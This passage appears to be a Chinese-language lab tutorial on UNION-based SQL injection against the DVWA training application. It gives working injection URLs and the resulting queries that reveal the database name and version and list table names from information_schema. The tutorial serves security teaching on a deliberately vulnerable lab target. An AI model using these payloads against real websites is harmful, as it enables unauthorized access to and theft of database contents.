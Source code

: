 ## 获取数据

###  获取数据库名、数据库版本

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27%20union%20select%20database(),version()%23&Submit=Submit#

SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1' union select database(),version()#';
```

网站回显

![](image/1.jpg)

### 获取数据库中的表名

* `group_concat`

  ```
  GROUP_CONCAT(
  			[DISTINCT] expr [,expr ...]             
  			[
  			ORDER BY {unsigned_integer | col_name | expr}                 
  				[ASC | DESC] [,col_name ...]
  			]             
  			[SEPARATOR *str_val*]
  			)
  ```

  将多行数据按照指定的顺序连接成一个字符串，默认以逗号分隔。

#### 方法一：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,table_name from Information_schema.tables where table_schema = database()#';
```
